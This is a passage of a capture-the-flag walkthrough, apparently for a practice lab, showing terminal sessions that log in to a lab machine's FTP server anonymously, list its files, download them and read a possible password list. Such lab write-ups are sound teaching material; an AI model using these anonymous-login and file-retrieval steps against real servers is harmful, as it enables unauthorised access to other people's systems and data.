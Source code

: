 ## 2. Ok so Ftp is open let try to enter with default credentials
#### Ftp default credentials is ```Anonymous```
```
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ ftp 10.10.67.0       
Connected to 10.10.67.0.
220 (vsFTPd 3.0.3)
Name (10.10.67.0:death): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
### let find something usefull
```
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ ftp 10.10.67.0
Connected to 10.10.67.0.
220 (vsFTPd 3.0.3)
Name (10.10.67.0:death): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||26452|)
ftp: Can't connect to `10.10.67.0:26452': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> 
```
### We get some text file, Let download it to our system
```
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************************************************************************************************************************************|   418        3.99 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.15 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************************************************************************************************************************************|    68        1.13 MiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.32 KiB/s)
ftp> 
```
### AS we read First txt-file we have Passwords maybe
```
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ cat locks.txt  
rEddrAGON
```